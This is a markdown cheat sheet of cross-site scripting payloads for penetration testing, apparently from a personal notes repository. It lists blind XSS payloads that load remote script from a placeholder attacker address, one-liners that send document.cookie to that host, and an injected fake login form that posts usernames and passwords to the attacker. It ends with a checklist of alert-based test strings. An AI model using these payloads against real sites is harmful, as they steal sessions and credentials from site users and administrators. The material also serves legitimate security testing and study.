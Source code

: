 # Cross-Site Scripting
- [Blind XSS](#blind-xss)
- [Testing](#testing)


> [!NOTE]
> XSS can be injected into any input in the HTML page, which is not exclusive to HTML input fields, but may also be in HTTP headers like the Cookie or User-Agent (i.e., when their values are displayed on the page).


## Blind XSS
- A Blind XSS vulnerability occurs when the vulnerability is triggered on a page we don't have access to. Blind XSS vulnerabilities usually occur with forms only accessible by certain users (e.g., Admins). Some potential examples include:

    - Contact Forms
    - Reviews
    - User Details
    - Support Tickets
    - HTTP User-Agent header

- Payloads trigger Blind XSS:
    - [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#blind-xss)
```javascript
<script src='http://OUR_IP'></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```

- Grab the cookies:
```javascript
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```

- **Phishing**
    - Login form
```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```



## Testing 
- [ ] Check for any reflection

- [ ] XSS context is inside a quoted string literal
    - [ ] `'-alert(document.domain)-'`
    - [ ] `';alert(document.domain)//`

- [ ] Hidden inputs
    - [ ] Check for href in canonical link tag `<link rel="canonical" href='http://WEBSITE/?'accesskey='x'onclick='alert(1)'/>`
    - [ ] Check forms `<input type="hidden" accesskey="x" onclick="alert(1)">`

- [ ] Check for CSTI (Angularjs, Vuejs)
- [ ] Check for DOM XSS (using DOM invader)


- [XSS Filter bypass](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/1%20-%20XSS%20Filter%20Bypass.md#bypass-using-bom)



- **Resources** 
    - [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md)
    - [XSS without parentheses and semi-colons](https://portswigger.net/research/xss-without-parentheses-and-semi-colons)

